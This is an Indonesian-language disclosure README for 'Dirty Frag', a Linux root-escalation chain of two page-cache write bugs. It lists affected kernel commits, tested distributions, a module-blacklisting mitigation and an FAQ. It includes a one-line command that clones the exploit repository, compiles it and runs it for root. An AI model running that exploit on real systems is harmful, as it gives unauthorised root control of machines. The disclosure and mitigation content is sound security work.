

# Dirty Frag: Universal Linux LPE

<p align="center">
  
</p>

# Abstract



Dokumen ini menjelaskan vulnerability class Dirty Frag, yang pertama kali ditemukan dan dilaporkan oleh Hyunwoo Kim (@v4bel), yang dapat memperoleh root privileges pada berbagai major Linux distributions dengan menggabungkan vulnerability `xfrm-ESP Page-Cache Write (CVE-2026-43284)` dan `RxRPC Page-Cache Write (CVE-2026-43500)`.

Dirty Frag merupakan pengembangan dari bug class yang sama dengan Dirty Pipe dan Copy Fail. Karena vulnerability ini merupakan deterministic logic bug yang tidak bergantung pada timing window, exploit tidak membutuhkan race condition, kernel tidak mengalami panic saat exploit gagal, dan success rate-nya sangat tinggi.

Untuk informasi teknis lengkap dan timeline, [lihat di sini](assets/write-up.md).

* `xfrm-ESP Page-Cache Write (CVE-2026-43284)` telah diperbaiki pada mainline kernel commit `f4c50a4034e6`.
* `RxRPC Page-Cache Write (CVE-2026-43500)` telah diperbaiki pada mainline kernel commit `aa54b1d27fe0`.

> [!NOTE]
> Pada saat dokumen ini pertama kali dipublikasikan (2026-05-07), embargo telah bocor karena faktor eksternal sehingga patch maupun CVE belum tersedia. Setelah berkonsultasi dengan maintainer di [linux-distros@vs.openwall.org](mailto:linux-distros@vs.openwall.org), dokumen Dirty Frag dipublikasikan atas permintaan mereka. Untuk disclosure timeline, lihat technical details document.

# Exploiting

## One-line Special

```bash id="3k8mde"
git clone https://github.com/V4bel/dirtyfrag.git && cd dirtyfrag && gcc -O0 -Wall -o exp exp.c -lutil && ./exp
```

PoC ini disediakan sebagai technical reference setelah konsultasi dengan linux-distros. Jangan gunakan pada sistem yang tidak memiliki izin untuk diuji.

## Cleanup

⚠️ **Important:** Setelah exploit dijalankan, page cache akan terkontaminasi. Untuk membersihkan polluted page cache dan menjaga system stability, jalankan:

```bash id="1w0r2l"
echo 3 > /proc/sys/vm/drop_caches
```

atau reboot sistem.

# Affected Versions

* **CVE-2026-43284**: vulnerability xfrm-ESP Page-Cache Write terdampak mulai dari commit `cac2661c53f3 (2017-01-17)` hingga `f4c50a4034e6 (2026-05-05)`.
* **CVE-2026-43500**: vulnerability RxRPC Page-Cache Write terdampak mulai dari commit `2dc334f1a63a (2023-06-08)` hingga `aa54b1d27fe0 (2026-05-10)`.

Dengan kata lain, vulnerability ini aktif selama kurang lebih 9 tahun.

Dirty Frag telah diuji pada distribusi berikut:

* Ubuntu 24.04.4: 6.17.0-23-generic
* RHEL 10.1: 6.12.0-124.49.1.el10_1.x86_64
* openSUSE Tumbleweed: 7.0.2-1-default
* CentOS Stream 10: 6.12.0-224.el10.x86_64
* AlmaLinux 10: 6.12.0-124.52.3.el10_1.x86_64
* Fedora 44: 6.19.14-300.fc44.x86_64
* ...

# Mitigation

1. Gunakan perintah berikut untuk menonaktifkan vulnerable modules dan membersihkan page cache:

```bash id="2myr86"
sh -c "printf 'install esp4 /bin/false\ninstall esp6 /bin/false\ninstall rxrpc /bin/false\n' > /etc/modprobe.d/dirtyfrag.conf; rmmod esp4 esp6 rxrpc 2>/dev/null; echo 3 > /proc/sys/vm/drop_caches; true"
```

2. Setelah masing-masing distribusi Linux menyediakan official patch/backport, segera lakukan kernel update.

# FAQ

## Kenapa menggabungkan dua vulnerability?

xfrm-ESP Page-Cache Write menyediakan powerful arbitrary 4-byte STORE primitive seperti Copy Fail dan tersedia di sebagian besar distribusi Linux, tetapi membutuhkan privilege untuk membuat namespace.

Ubuntu terkadang memblokir pembuatan unprivileged user namespace melalui kebijakan AppArmor. Dalam kondisi tersebut, xfrm-ESP Page-Cache Write tidak dapat dipicu. Sementara itu, RxRPC Page-Cache Write tidak membutuhkan namespace privilege, tetapi module `rxrpc.ko` tidak tersedia di sebagian besar distribusi. Namun pada Ubuntu, module `rxrpc.ko` aktif secara default.

Dengan menggabungkan kedua vulnerability tersebut, blind spot masing-masing saling menutupi sehingga privilege escalation ke root dapat dilakukan pada hampir semua major Linux distributions.

## Kenapa namanya masih seri "Dirty"?

Ya, saya tahu. Namun vulnerability ini merupakan turunan dari Dirty Pipe dan termasuk bug class yang “mengotori” member `frag` pada `struct sk_buff`, sehingga nama tersebut dianggap paling sesuai.

## Apa hubungannya dengan vulnerability "Copy Fail"?

Copy Fail menjadi motivasi awal penelitian ini. Secara khusus, xfrm-ESP Page-Cache Write pada vulnerability chain Dirty Frag menggunakan sink yang sama dengan Copy Fail. Namun vulnerability ini tetap dapat dipicu meskipun module `algif_aead` tidak tersedia.

Artinya, bahkan pada sistem yang sudah menerapkan public mitigation Copy Fail (`algif_aead blacklist`), Linux masih tetap vulnerable terhadap Dirty Frag.

## Bagaimana cara memperbaiki Linux saya?

Lihat bagian Mitigation di atas.
